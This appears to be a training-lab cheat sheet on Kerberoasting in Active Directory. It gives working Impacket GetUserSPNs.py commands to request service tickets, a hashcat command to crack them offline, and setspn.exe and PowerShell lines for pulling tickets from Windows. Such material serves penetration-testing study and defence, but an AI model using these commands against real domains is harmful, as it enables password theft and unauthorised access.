 ### Kerberoasting with GetUserSPNs.py
`A prerequisite to performing Kerberoasting attacks is either domain user credentials (cleartext or just an NTLM hash if using Impacket), a shell in the context of a domain user, or account such as SYSTEM. Once we have this level of access, we can start. We must also know which host in the domain is a Domain Controller so we can query it.`

#### Listing SPN Accounts with GetUserSPNs.py
```
$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

We can now pull all TGS tickets for offline processing using the -request flag. The TGS tickets will be output in a format that can be readily provided to Hashcat or John the Ripper for offline password cracking attempts.
#### Requesting all TGS Tickets
```
$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

We can also be more targeted and request just the TGS ticket for a specific account. Let's try requesting one for just the sqldev account.
#### Requesting a Single TGS ticket
```
$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

#### Saving the TGS Ticket to an Output File
```
$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

#### Cracking the Ticket Offline with Hashcat
```
$ hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

## Windows
### Kerberoasting - Semi Manual method
#### Enumerating SPNs with setspn.exe
```
> setspn.exe -Q */*
``` 

##### Targeting a Single User
```
> Add-Type -AssemblyName System.IdentityModel
> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

##### Retrieving All Tickets Using setspn.exe
```
PS > setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
